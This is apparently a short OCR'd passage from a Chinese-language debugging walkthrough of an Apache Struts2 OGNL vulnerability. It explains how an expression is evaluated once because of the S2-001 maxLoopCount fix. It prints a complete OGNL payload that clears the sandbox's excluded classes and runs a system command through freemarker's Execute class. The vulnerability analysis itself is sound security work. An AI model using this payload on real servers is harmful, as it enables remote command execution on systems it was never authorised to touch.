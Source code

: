 ![11.png](images/11.png)

&emsp;&emsp;&emsp;&emsp;8.F7进入evalvate方法,在第56行Object o = evaluator.evaluate(var);进行了第一次解析,解析后%{name}变成了%{('Powered_by_Unicode_Potats0,enjoy_it').(#UnicodeSec = #application['org.apache.tomcat.InstanceManager']).(#potats0=#UnicodeSec.newInstance('org.apache.commons.collections.BeanMap')).(#stackvalue=#attr['struts.valueStack']).(#potats0.setBean(#stackvalue)).(#context=#potats0.get('context')).(#potats0.setBean(#context)).(#sm=#potats0.get('memberAccess')).(#emptySet=#UnicodeSec.newInstance('java.util.HashSet')).(#potats0.setBean(#sm)).(#potats0.put('excludedClasses',#emptySet)).(#potats0.put('excludedPackageNames',#emptySet)).(#exec=#UnicodeSec.newInstance('freemarker.template.utility.Execute')).(#cmd={'whoami'}).(#res=#exec.exec(#cmd))}.因为在S2-001漏洞的修复中用maxLoopCount限制了解析次数,所以只能解析一次.
